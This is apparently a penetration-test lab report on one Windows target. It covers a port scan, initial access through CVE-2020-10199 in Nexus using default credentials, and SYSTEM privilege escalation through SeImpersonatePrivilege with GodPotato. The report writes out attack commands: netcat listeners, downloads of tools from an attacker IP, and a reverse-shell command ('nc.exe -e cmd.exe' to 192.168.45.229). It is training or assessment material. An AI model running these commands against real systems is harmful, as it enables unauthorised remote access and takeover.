 
## 4.1 **Target #1 - 192.168.197.61**

### **4.1.1 Service Enumeration**

**Port Scan Results:**

| |
| --- | ---|
|**Server IP Address**|**Ports Open**|
|192.168.197.61|**TCP:** 21, 80, 445, 8081|
|| **UDP:** None|  

### 4.1.2 Initial Access -  CVE-2020-10199 (Sonatype Nexus 3.21.1 - Remote Code Execution Authenticated)

**Vulnerability Explanation:** Nexus Repository Manager 3 versions 3.21.1 and below are vulnerable to Java EL injection which allows a low privilege user to remotely execute code on the target server.

**Vulnerability Fix:** Update a newer version that is patched. 

**Severity:** **Critical**

**Steps to reproduce the attack:**

1. I was trying different default/common credentials to log into the Nexus Repository Manager service and found that `nexus:nexus` were valid credentials.
2. Once I had valid credentials, I modified the exploit from https://www.exploit-db.com/exploits/49385 to include the target, the credentials and the payload.
3. For the payload, I created an encoded PowerShell one-liner reverse shell using the following commands:
![[Pasted image 20231102224755.png]]
4. Next, I added the base64 payload into the POC exploit as follows.
5. I started a nc listener by running `rlwrap nc -lvnp 5555`.
**Proof of Concept Code:** modifications to the existing exploit are highlighted in red.
> https://www.exploit-db.com/exploits/49385

![[Pasted image 20231102224950.png]]
### 4.1.3 Privilege Escalation - SeImpersonatePrivilege

**Vulnerability Explanation:** Users with SeImpersonatePrivilege privilege can impersonate any process they can get a handle on. There are a lot of public exploits that will leverage this to achieve privilege escalation and run commands as SYSTEM. 

**Vulnerability Fix**: Do not grant SeImpersonatePrivilege to users that don't need it. 

**Severity:** **Critical**

**Steps to reproduce the attack:** I uploaded the exploit GodPotato to the machine and a windows versions of nc64.exe. Then I started a nc listener in kali and ran godPotato to exploit the vuln and get execution as SYSTEM.

1. Download godpotato into the system: `iwr -uri 192.168.45.229/`
2. Download nc.exe into the system: `iwr -uri 192.168.45.229/GodPotato-NET4.exe -outfile GodPotato-NET4.exe`
3. Start a nc listener in kali `rlwrap nc -lvnp 9999`
4. Run the exploit and specify the command we want to run as SYSTEM. In this case, a reverse shell using nc.exe: `./GodPotato-NET4.exe -cmd "cmd /c C:\Users\nathan\nc.exe -e cmd.exe 192.168.45.229 9999 "`
![[Pasted image 20231102230115.png]]
### 4.1.4 Post-Exploitation
**System Proof Screenshot:**
![[Pasted image 20231102223043.png]]


